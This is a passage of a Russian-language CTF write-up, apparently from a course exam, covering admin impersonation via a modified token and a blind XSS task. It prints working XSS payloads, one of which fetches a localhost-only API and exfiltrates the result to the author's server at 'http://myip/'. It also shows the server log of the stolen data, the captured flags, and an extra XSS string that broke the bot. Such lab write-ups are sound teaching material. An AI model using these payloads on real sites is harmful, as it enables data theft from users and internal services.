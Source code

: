Мы узнали nickname настоящего админа.
Подставим его в username из токена, откроем пост Do not look, и получим, что репорт не найден.

Подствим обратиться к нему как к public report через /report/5 и получим флаг.

`deteact{afb5d77f8a5ab804c0c99b890539ef7a}`

### 3. Say Hello V2

Из проошлой версии таска можно вспомнить, что там была blind xss инъекция, которая отражалась у бота.
Пробуя разные возможные payload для xss сработал следующий - пришел запрос на сервер:

`<img src=x onerror=window.open("http://myip/")>">`

Осталось дело за малым, прочитать /api/secretsecretsecret........ найденный в коде сайта в скрипте `home.js`

```
// oh, really?
        // fetchApiKey() {
        //     return fetch('/api/secretsecretsecretsecretsecretsecretsecretsecretsecretsecretsecret')
        //         .then(res => res.json())
        // },
```

Этот api доступен только с локального хоста.
На этот раз в боте добавили ограничение на длину сообщения, и надо максимально экономить символы.

Составим js скрипт, как на семинаре, чтобы не прописывать secret столько раз, конкатенируем строки.
Получим:

```
<img src=x onerror="fetch('/api/'+'secret'.repeat(11)).then(r=>r.text()).then(d=>window.open('http://myip/?flag='+btoa(d)));">">
```

И загрузив сообщение в бота получим ответ:

```
79.143.25.24 - - [29/Apr/2023 16:53:05] "GET /?flag=eyJtZXNzYWdlIjoiZGV0ZWFjdHs5MmJlMDIxMTI1ZGJmYTE3MWMwNjk2YTIwZjBiODk2Mn0ifQ== HTTP/1.1" 200 -
```

Расшифруем и получим флаг:

`{"message":"deteact{92be021125dbfa171c0696a20f0b8962}"}`

P.S Это я 1 раз случайно сломал бота, перебирая разные xss. Не знаю почему, но после сообщения (или какого-то другого, могу попробовать снова сломать, если надо)) он переставал читать сообщения.
```
#'`><\x3Cimg src=xxx:x onerror=javascript:alert(1)>
```

### 4. Dashboard

**Я не успел сделать этот таск на экзамене, немного не хватило, но решил добавить его сюда**
